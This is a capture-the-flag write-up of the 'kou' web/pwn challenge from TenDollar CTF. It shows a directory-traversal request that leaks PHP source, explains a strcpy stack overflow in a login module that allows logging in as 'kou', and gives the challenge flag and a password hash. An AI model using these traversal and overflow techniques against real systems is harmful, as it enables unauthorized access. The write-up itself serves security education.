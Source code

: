 ```yaml
---
layout: post
title: "TenDollar CTF - kou writeup"
comments: true
description: "My Problem writeup at TenDollar CTF 3rd."
keywords: "my_prob, web, pwn, lfi, overflow
---
```


## Information

Category : Web, Pwn

Solver : 7

Tag : LFI, Overflow

## Description

Author: @shpik

Eagle-Jump is black company?

Server Info: http://web2.tendollar.kr:10101/

## Exploit

It have 4 menu in this site. (੭ ᐕ)੭*⁾⁾

- Home
- Article
- Login
- Join

This site handles the page through the p parameter.

`http://web2.tendollar.kr:10101/?p=home`

p parameter is not allow wrapper and directory traversal.

There is a Secret Data in the Article menu.

If you read this, you will not get the contents with the message "You're not admin."

When you request article you can see that it is requested as f parameter.

`http://web2.tendollar.kr:10101/?p=view&f=First%20Article`

f parameter is allow directory traversal, but wrapper is not allowed.

Leak index.php.

`http://web2.tendollar.kr:10101/?p=view&f=../../var/www/html/index.php`

```html
<!-- index.php -->
<!DOCTYPE html>
<html>
<head>
	<title>Yagami Kou's Homepage</title>
	<link rel=stylesheet href="index.css">
</head>
<body>
	<?php
		@include_once('menu.php');
	?>
	<br>
	<?php
		$pageList = array(
			'home',
			'login',
			'loginchk',
			'logout',
			'view',
			'board',
			'join'
		);
		if(in_array($_GET['p'], $pageList)) {
		  @include_once($_GET['p'].'.php');
		} else {
		  @include_once('home.php');
		}		
	?>
</body>
</html>
```

Let's take a look at loginchk which seems to be important the pageList.

```html
<!-- loginchk.php -->
<?php
	$id = $_POST['id'];
	$pw = $_POST['pw'];
	if($id!='' && $pw!=''){
		if(preg_match('/kou/i',$id)){
			die('<script>alert("Don\'t login at kou.");history.back();</script>');
		}
		if(login($id,$pw)){
			$_SESSION['is_login'] = 1;
			$_SESSION['admin'] = 1;
			echo '<script>alert("Login Success.");location.href="?p=home";</script>';
		}else{
			echo '<script>alert("Login Fail.");history.back();</script>';
		}
	}else{
		echo '<script>alert("Login Fail.");history.back();</script>';
	}
?>
```

It is not allow login as "kou" in loginchk.php.

But, **login** function that verify id and password is not built-ins function.

Maybe, It is called by another modules.

```html
<!-- view.php -->
<?php
	$f = $_GET['f'];
	if(!is_array($f) && !is_null($f) && $f!=''){
//		$f = str_replace('../','', $f);
		if($f[strlen($f)-1]=='/'){
			$f[strlen($f)-1]=='\0';
		}
		if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==1){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}else if(preg_match('/Secret Data/i',$f) && $_SESSION['admin']==0){
?>
	<div class="description">
		<p style="font-size: 20px;">Secret Data</p>
		<br><br>
		<pre>You're not admin.</pre>
	</div>
<?php
		}else{
?>
	<div class="description">
		<p style="font-size: 20px;"><?=$f;?></p>
		<br><br>
		<?php
		if(preg_match('/kou\.so/i',$f)){
			echo 'Okay Here<br><div>'.file_get_contents('/var/www/modules/kou.so').'</div>';
		}
		?>
		<pre><?php loadFile($f); ?></pre>
	</div>
<?php
		}

	}else{
		echo '<script>alert("No found.");history.back();</script>';
	}
?>
```

Next, see the view.php.

It seems that f parameter is being distributed to the page through **loadFile** function.

but, It is not built-ins function, too.

If you request kou.so with f parameter, you will see that you are giving the kou.so file.

Open it !

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou1.png)

**loadFile** function just open file using fopen function.

Next, I see the **login** function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou2.png)

It is verfying to input value(id, pw) using loginchk function.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/_posts/kou3.png)

**loginchk** function is compare id and pw to "kou" and "1e0c6abede7ff7184c3cefe606f9760a".

but, id can't contain "kou" because of loginchk.php.

Vulnerability is **login function**.

```c
strcpy(_id, id);
v3 = strcpy(_pw, pw);
```

It copy input value to _id and _pw using strcpy.

```c
char _pw[32]; // [rsp+20h] [rbp-68h]
char _id[33]; // [rsp+40h] [rbp-48h]
```

If you look at stacks of _id and _pw, you can see _pw followed by _id.

And copy id, then copy pw, but strcpy don't check length.

It is occur **<u>stack overflow</u>**.

If pw is inputed by "1e0c6abede7ff7184c3cefe606f9760akou", then _id is "kou" and _pw is "1e0c6abede7ff7184c3cefe606f9760a".

So, you can login as kou.

Now when you log in with id = a, pw = 1e0c6abede7ff7184c3cefe606f9760akou on the login page, you can login as kou.

After login as kou, you can read Secret Data and get Flag!

```
Secret Data

退勤する前にFLAGを残していきます。
TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}
```



**FLAG :** TDCTF{Eagle_Jump_is_bl4ck_C0mpany_But_i_w4nt_to_g0_ther3}

